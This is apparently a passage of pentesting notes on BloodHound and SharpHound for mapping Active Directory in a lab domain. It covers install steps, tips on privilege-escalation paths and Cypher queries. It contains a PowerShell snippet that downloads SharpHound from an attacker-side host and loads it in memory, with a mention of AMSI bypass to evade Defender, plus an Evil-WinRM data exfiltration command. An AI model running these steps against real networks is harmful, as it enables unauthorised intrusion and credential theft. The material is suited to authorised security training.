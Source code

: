 *Evil-WinRM* PS C:\> download 20210109143954_BloodHound.zip /tmp/bloodhound.zip
<strong>
</strong># Sharphound Reflection in PS (full it in memory) (if Defender enabled you need first AMSI bypass)
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())
</code></pre>

{% tabs %}
{% tab title="Install" %}
I’ll clone the repository into `/opt`, and also got the latest release binary. I’ll start `neo4j` (`apt install neo4j` if it’s not already installed) with `neo4j start`, and then run Bloodhound. If you’re running as root, you’ll need the `--no-sandbox` flag.

If it’s a fresh install (or if you forget your password from a previous install, you can delete `/usr/share/neo4j/data/dbms/auth` and then it’s like a fresh install), I’ll need to change the `neo4j` password by running `neo4j console`, visiting the url it returns, and logging in with the default creds, neo4j/neo4j. It’ll force a password change them at that point. Now the BloodHound program can connect, thought first I need data.
{% endtab %}

{% tab title="Tips" %}
\- Check groups of a user (**Unrolled Group Membership** under Node Info). See if there is a diamond on any of them since that means it is a high value target. Research privesc ways for that group.

\- Knowing that group, now check **Analysis > Shortest Paths to High Value Targets** and see from that group to DC if possible

\- If possible, and for testing purposes, try to create a new user to change stuff, add it to groups and so on

\- Check **Outbound Object Control**
{% endtab %}

{% tab title="Queries" %}
{% code overflow="wrap" %}
```bash
https://en.hackndo.com/bloodhound/
https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
https://github.com/xenoscr/Useful-BloodHound-Queries/blob/master/List-Queries.md
https://gist.github.com/seajaysec/a4d4a545047a51053d52cba567f78a9b
https://infinitelogins.com/2022/01/28/bloodhound-cheatsheet-custom-queries-neo4j-lookups/

# Type it on Raw Query (at the bottom of the GUI)
# Show all domains and computers
MATCH p = (d:Domain)-[r:Contains*1..]->(n:Computer) RETURN p
# Show all users
MATCH p = (d:Domain)-[r:Contains*1..]->(n:User) RETURN p
# Overall map of domain/groups/users
MATCH q=(d:Domain)-[r:Contains*1..]->(n:Group)<-[s:MemberOf]-(u:User) RETURN q
# Users ACL
MATCH p=(u:User)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' RETURN p
MATCH (m:Computer) RETURN m # all computers
MATCH (m:User) RETURN m # all users
# (NODES)-[:RELATIONSHIP]->(NODES)
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p # all active sessions -> it means with admin privs we could dump hashes of that user logged inn
```
{% endcode %}
{% endtab %}
